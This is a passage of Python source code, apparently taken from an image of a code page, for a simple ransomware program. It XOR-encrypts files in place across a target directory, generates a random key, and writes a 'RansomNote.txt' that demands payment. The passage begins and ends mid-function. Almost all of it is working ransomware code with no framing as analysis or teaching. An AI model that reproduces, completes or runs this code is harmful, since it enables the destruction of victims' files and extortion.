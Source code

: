 ```python
    

    encrypted_data = xor_encrypt(data, key)  # Encrypt the file data using XOR encryption



    with open(file_path, 'wb') as file:

        file.write(encrypted_data)

    

    # Create a ransom note with the encryption key

    ransom_note = f"Your files have been encrypted! Pay the ransom to get the key: {key}"

    with open('RansomNote.txt', 'w') as note:

        note.write(ransom_note)



def xor_encrypt(data, key):

    encrypted_data = bytearray()

    key_length = len(key)

    for i, byte in enumerate(data):

        encrypted_byte = byte ^ ord(key[i % key_length])

        encrypted_data.append(encrypted_byte)

    return encrypted_data



def generate_random_key(length=16):

    letters = string.ascii_letters + string.digits

    return ''.join(random.choice(letters) for _ in range(length))



# Main function to encrypt files

def main():

    target_directory = '/path/to/target/directory'  # Specify the directory containing files to encrypt



    for root, _, files in os.walk(target_directory):

        for file in files:

            file_path = os.path.join(root, file)

            try:

```